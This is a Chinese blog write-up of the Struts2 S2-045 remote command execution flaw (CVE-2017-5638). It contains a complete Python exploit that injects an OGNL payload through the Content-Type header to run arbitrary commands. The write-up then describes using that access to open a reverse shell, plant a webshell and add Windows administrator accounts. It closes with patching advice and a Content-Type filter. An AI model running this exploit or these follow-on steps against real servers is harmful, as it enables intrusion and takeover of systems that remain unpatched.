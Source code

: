 ```yaml
---
title: Struts2远程命令执行漏洞
categories:
  - 命令执行
tags:
  - Struts2
  - 命令执行漏洞
toc: true 文章目录
author: BlBana
date: 2017-03-08 19:00:13
description:
comments:
original:
permalink:
---
```

## S2-045 Struts2远程命令执行漏洞

### 0x01 stucts
Struts是Apache基金会的一个开源项目，Struts通过采用Java Servlet/JSP技术，实现了基于Java EE Web应用的Model-View-Controller(MVC)设计模式的应用框架，是MVC经典设计模式中的一个经典产品。
<!-- more -->
### 0x02 影响范围
Struts 2.3.5 – Struts 2.3.31 Struts 2.5 – Struts 2.5.10

### 0x03 不受影响版本
Struts 2.3.32 Struts 2.5.10.1

### 0x04 漏洞危害
在default.properties文件中，struts.multipart.parser的值有两个选择，分别是jakarta和pell。在Strucs 2框架中jakarta解析器是框架的标准组成部分。默认这个解析器是启动的。
由于该组件解析上传文件的Content-Type头时，异常处理函数没有正确的处理用户输入的错误信息。导致可以远程发送恶意的上传数据包，利用漏洞可以执行任意的命令。
> 漏洞编号：CVE-2017-5638
> 漏洞名称：S2-045：Struts 2远程执行代码漏洞
> 漏洞影响：基于JakartaMultipart解析器执行文件上传时可能的RCE

### 0x05 PoC漏洞检测
```python
#! /usr/bin/env python
# encoding:utf-8
import urllib2
import sys
from poster.encode import multipart_encode
from poster.streaminghttp import register_openers
def poc():
    if len(sys.argv) < 3:
        print '''Usage: poc.py http://172.16.12.2/example/HelloWorld.action "command"'''
        sys.exit()
    register_openers()
    datagen, header = multipart_encode({"image": open("tmp.txt", "w+")})
    header["User-Agent"]="Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36"
    header["Content-Type"]="%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='"+str(sys.argv[2])+"').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"
    request = urllib2.Request(str(sys.argv[1]),datagen,headers=header)
    response = urllib2.urlopen(request)
    print response.read()
poc()
```
**通过此PoC确认目标是否存在此漏洞**，此外还可以通过Seebug上的照妖镜来进行在线的检测，可以判断目标机器是否存在漏洞。

### 0x06 漏洞复现
我在本机的ubuntu上复现了此漏洞，配置环境如下：
1. Tomcat5
2. struts 2.3.31

1. 部署的方式比较容易，先安装好Tomcat的服务器，访问 http://localhost:8080 进行检测环境是否搭建成功。（需在服务器上配置好Java环境，参考连接：[Tomcat环境部署](http://drops.blbana.cc/2016/10/24/e9-80-9a-e8-bf-87tomcat-e8-8e-b7-e5-8f-96webshell/%22Tomcat%E7%8E%AF%E5%A2%83%E9%83%A8%E7%BD%B2%22)）
![enter image description here](http://blog-img-1252112827.cos.ap-chengdu.myqcloud.com/image/jpg/struts2/1.png)

2. Tomcat的环境搭建完成了以后，可以进入struts2的官网下载存在漏洞的应用程序版本，利用刚才部署环境里的方法将struts2的war包导入到Tomcat的环境当中，访问搭建好的环境如下所示：
![enter image description here](http://blog-img-1252112827.cos.ap-chengdu.myqcloud.com/image/jpg/struts2/2.png)

3. 环境搭建完成以后，可以利用上面的PoC对其进行一个测试的操作
> 注意：这个脚本需要安装poster的python类库才能正常运行
我是在windows环境下进行测试的，直接运行python的脚本，填写好目标的地址，可以拿到一个执行命令的权限
![enter image description here](http://blog-img-1252112827.cos.ap-chengdu.myqcloud.com/image/jpg/struts2/3.png)

4. 接下来我们可以在公网的服务器上监听一个端口，然后利用命令执行反弹一个shell给服务器，直接获取服务器的权限
![enter image description here](http://blog-img-1252112827.cos.ap-chengdu.myqcloud.com/image/jpg/struts2/4.png)

![enter image description here](http://blog-img-1252112827.cos.ap-chengdu.myqcloud.com/image/jpg/struts2/5.png)

5. 除此之外，当我们拿到了较高的权限的时候，还可以在我们的服务器上放一个webshell，然后通过执行命令将服务器上的webshell下载到目标机器上，这里注意的是需要**知道网站的真实路径**（*通过locate *.jsp来定位jsp文件的位置*），之后当获得了webshell的时候就可以得到文件管理，上传等权限了。

6. 对于windows服务器可以直接执行创建用户和添加管理员的两条命令，如果3389端口打开，可以直接利用创建的用户打开远程桌面。

### 0x07漏洞修复
1. 升级版本：正在使用Jakarta文件上传插件的可以升级版本到struts2的安全版本
2. 过滤验证：通过判断Content-Type是否为白名单，限制非法的攻击
加固代码：

```java
import javax.servlet.Filter;
import javax.servlet.FilterChain;
import javax.servlet.FilterConfig;
import javax.servlet.ServletException;
import javax.servlet.ServletRequest;
import javax.servlet.ServletResponse;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
 
 
public class SecurityFilter extends HttpServlet implements Filter {
 
        /**
         * 
         */
        private static final long serialVersionUID = 1L;
         
         
        public final String www_url_encode= "application/x-www-form-urlencoded";
        public final String mul_data= "multipart/form-data ";
        public final String txt_pla= "text/plain";
 
        public void doFilter(ServletRequest arg0, ServletResponse arg1,
                        FilterChain arg2) throws IOException, ServletException {
 
                HttpServletRequest request = (HttpServletRequest) arg0;
                HttpServletResponse response = (HttpServletResponse) arg1;
                 
                String contenType=request.getHeader("conTent-type");
                 
                if(contenType!=null&&!contenType.equals("")&&!contenType.equalsIgnoreCase(www_url_encode)&&!contenType.equalsIgnoreCase(mul_data)&&!contenType.equalsIgnoreCase(txt_pla)){
                         
                        response.setContentType("text/html;charset=UTF-8");
                        response.getWriter().write("非法请求Content-Type！");
                        return;
                }
                arg2.doFilter(request, response);
        }
 
        public void init(FilterConfig arg0) throws ServletException {
 
        }
 
}
```
编译成“SecurityFilter.class”复制到应用的WEB-INF/classes目录下，配置web.xml文件，使该文件生效

3. 还有一种方法就是进入将默认的Jakarta模块改为使用Pell模块


---
